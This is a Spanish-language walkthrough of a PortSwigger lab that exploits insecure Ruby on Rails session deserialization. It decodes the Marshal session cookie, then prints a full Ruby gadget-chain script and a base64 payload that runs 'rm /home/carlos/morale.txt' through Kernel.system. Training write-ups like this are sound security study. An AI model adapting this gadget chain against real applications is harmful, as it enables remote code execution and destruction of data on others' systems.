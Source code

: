 ```yaml
---
title: Insecure Deserialization Lab 7
date: 2025-01-02 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Insecure Deserialization
tags:
  - Insecure Deserialization
  - Exploiting Ruby deserialization using a documented gadget chain
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Exploiting Ruby deserialization using a documented gadget chain

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` utiliza un mecanismo de `sesiones` basado en la `serialización` y el `framework Ruby on Rails`. Existen `exploits documentados` que permiten la `ejecución remota de código` mediante una `cadena de gadgets` en este `framework`. Para `resolver` el laboratorio, debemos encontrar un `exploit documentado` y adaptarlo para crear un `objeto serializado malicioso` que contenga una `carga útil de ejecución remota de código`. Luego, pasamos este `objeto` al `sitio web` para eliminar el archivo `morale.txt` del `directorio personal` de Carlos. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Insecure-Deserialization-Lab-7/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/Insecure-Deserialization-Lab-7/image_2.png)

`Refrescamos` la `web` con `F5` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Insecure-Deserialization-Lab-7/image_3.png)

El `token` está en `base64` así que lo `decodeamos` y vemos que es un `objeto`, esta estructura es típica de la librería `Marshal` de `ruby`

```
# echo 'BAhvOglVc2VyBzoOQHVzZXJuYW1lSSILd2llbmVyBjoGRUY6EkBhY2Nlc3NfdG9rZW5JIiVpa2dnNzM0b3huMnlmaGRpbnB1bGczbDhreGRubGNnZAY7B0YK' | base64 -d 
o:	User:@usernameI"
                        wiener:EF:@access_tokenI"%ikgg734oxn2yfhdinpulg3l8kxdnlcgd;F 
```

En esta web [https://nastystereo.com/security/ruby-3.4-deserialization.html](https://nastystereo.com/security/ruby-3.4-deserialization.html) podemos encontrar `artículos` para `efectuar` un `Deserialization Gadget Chain` en `ruby`. En mi caso voy a usar este `script` extraído de [https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) que nos `genera` un `objeto serializado` en `ruby`, el cual nos permite `ejecutar comandos` en `versiones` de ruby `inferiores` a la `3.0.2`

```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])

require "base64"
puts Base64.encode64(payload).gsub("\n", "")
```

En mi caso he usado [https://www.jdoodle.com/execute-ruby-online](https://www.jdoodle.com/execute-ruby-online) para `seleccionar` la `versión correspondiente` y `generar` el `payload` en `base64`

```
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ
```

Debido a que el parámetro `session` de la `cookie` es un `objeto` de `ruby`, podemos `abrirnos` el `navegador` y con `Ctrl + Shift + i` pegar el `objeto` que hemos `creado`

![](/assets/img/Insecure-Deserialization-Lab-7/image_4.png)
